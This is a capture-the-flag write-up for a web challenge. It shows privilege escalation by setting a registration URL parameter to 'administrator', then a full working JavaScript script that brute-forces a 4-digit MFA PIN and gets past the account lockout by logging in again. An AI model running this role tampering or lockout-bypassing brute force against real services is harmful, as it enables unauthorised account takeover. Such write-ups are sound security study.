


# FurHire - Weekly Challenge
**Date:** 2026-02-23  
**Hint:** "Your window is small, you might have to try multiple times."

---

## 🧠 Initial Recon

While exploring the site, I noticed that the account role is controlled via a URL parameter during registration:

```
/register?role=recruiter
/register?role=user
```

---

## Source Code Review

Inspecting the sites JavaScript revealed the following logic:

```javascript
async function loadDashboard() {
  try {
    if (user.role === 'administrator') {
      window.location.href = '/admin';
      return;
    }
    
    if (user.role === 'user') {
      await loadUserDashboard();
    } else {
      await loadRecruiterDashboard();
    }
  } catch (error) {
    document.getElementById('dashboard-content').innerHTML = '<p>Error loading dashboard</p>';
  }
}
```

From this, we learn:

- An `administrator` role exists.
- Administrators are redirected to `/admin`.

The key question became:

> Can we register as an administrator?

--- 

## 🔐 Privilege Escalation via Role Tampering

During registration, I modified the URL parameter:

```
/register?role=administrator
```

The account was successfully created.

Observed behavior:

- Normal user/recruiter → redirected to complete profile information.
- Administrator → redirected to login.

This confirms the server trusted the role parameter supplied in the URL, allowing privilege escalation at account creation.

---

## MFA Bypass Attempt

After logging in as administrator, I was prompted for a 4-digit MFA PIN.
  
The page indicated:
> PIN range: 0000–9999

This gives only 10,000 possible combinations — small enough to brute-force if rate limiting can be bypassed.

Attempting to directly access `/api/admin/content` returned:

```json
{"error":"MFA verification required"}
```

So MFA enforcement was implemented server-side.

---

##  Initial Brute Force Attempt

I first wrote a quick script to send PIN attempts.

Result:

- Account locked after ~30 attempts.
- Error message: **Account temporarily locked. Try again later.**

This suggested:

- A rate limit or lockout mechanism
- Possibly time-based rather than strictly attempt-count based.

Testing direct API access to `/api/admin/content` returned:

```json
{"error":"MFA verification required"}
```

So MFA enforcement was clearly happening server-side.

---

## Understanding the “Small Window”

The hint mentioned:

> “Your window is small”

At this point, I did **not** immediately assume the lockout reset after login. My initial assumption was simply that there was some kind of rate limiting in place.

Through testing, I observed:

- The account locked after a small number of rapid attempts.
- Adding delays slightly lowered how many attempts were allowed.
- The lockout behavior appeared to be time-based rather than strictly attempt-count based.

After being locked out multiple times, I tried logging out and back in before resuming the attack. During this testing, I discovered that logging back in appeared to reset the lockout state.

This was not something I initially anticipated, but became clear only after iterating and observing the system’s behavior.

At this stage, I still did not know:

- Whether the PIN rotated per login  
- Or whether it remained constant across sessions  

That uncertainty shaped the next phase of testing.

--- 

## Switching to ffuf

To try to maximize attempts within the limited window, I switched to `ffuf`.

Using `ffuf`, I was able to send approximately 1000 requests within the available window before the lockout triggered.

Eventually, ffuf identified what appeared to be the correct PIN.

However, I ran into an issue afterward.

Even after a valid response was detected, ffuf continued sending requests. By the time I manually attempted to use the discovered PIN, it was no longer accepted.

At this point, I was not entirely sure what caused the failure:

- It's possible the continued requests triggered another lockout.
- It's also possible the PIN was invalidated after being successfully used once.
- Or this could have been operator error on my part due to limited experience with ffuf configuration and stopping conditions.

Since I did not have insight into the server-side logic, I chose not to assume the tool was at fault.

Instead, I decided to move toward a more controlled approach where I could immediatley act on a successful response.

---

## Final Exploit Strategy

New approach:

1. Log in
2. Store the authentication token
3. Send PIN attempts sequentially
4. If:
   - `200 OK` → redirect immediately to `/admin`
   - `403 Forbidden` → re-login and continue from the same PIN
5. Wait for each response before sending the next request  
   - Prevents overshooting the correct PIN

---

## Final Exploit Script

```javascript
const CREDENTIALS = {
    username: "testuser",
    password: "testuser"
};

async function login() {
    try {
        const response = await fetch('/api/login', {
            method: 'POST',
            headers: { 'Content-Type': 'application/json' },
            body: JSON.stringify(CREDENTIALS)
        });

        if (!response.ok) return false;

        const result = await response.json();
        localStorage.setItem('token', result.token);
        return true;
    } catch (err) {
        return false;
    }
}

async function verifyPin(pinValue) {
    const token = localStorage.getItem('token');
    const pin = pinValue.toString().padStart(4, '0');

    const response = await fetch('/api/mfa/verify', {
        method: 'POST',
        headers: {
            'Content-Type': 'application/json',
            'Authorization': `Bearer ${token}`
        },
        body: JSON.stringify({ pin })
    });

    return { status: response.status, ok: response.ok, pin };
}

async function startExploit() {
    console.log("Starting Brute Force...");
    console.time("Attack Duration");

    for (let i = 0; i <= 9999; i++) {
        let res = await verifyPin(i);

        if (res.ok) {
            console.timeEnd("Attack Duration");
            window.location.href = '/admin';
            return;
        }

        if (res.status === 403) {
            console.warn(`Lockout detected at PIN ${res.pin}. Resetting...`);
            const reset = await login();
            if (reset) {
                i--; // Retry same PIN
                continue;
            } else {
                console.error("Auth server stopped responding.");
                return;
            }
        }

        if (i % 500 === 0) console.log(`Currently at ${i}`);
    }
}

(async () => {
    if (await login()) {
        await startExploit();
    } else {
        console.error("Initial login failed.");
    }
})();
```
---

## Result

Found valid PIN of: `5362`

Successfully redirected to: `/admin`

Flag obtained 
  

---

## Vulnerabilities Identified

1. **Clinrt side role parameter trusted server-side**
   - Privileg escalation via URL tampering `/register?role=administrator`

2. **Weak MFA implementation**
   - 4-digit PIN (only 10,000 possibilities)

3. **Lockout bypass via reauthentication**
   - Lock reset triggered by re-authentication

4. **Possible PIN persistence across sessions**
   - Behavior suggests it may not rotate per login (not definitively confirmed)

---

## Lessons Learned

- Never trust client controlled role parameters
- MFA simplementations must:
  - Rotate per session or per attempt window
  - Enforce strict rate limiting
  - Invalidate sessions on lockout
- Controlled automation can be more effective than high-speed fuzzing
- Time-based defenses can often be bypassed with session resets
- Observing and adapting to system behavior is often more important than initial assumptions.

---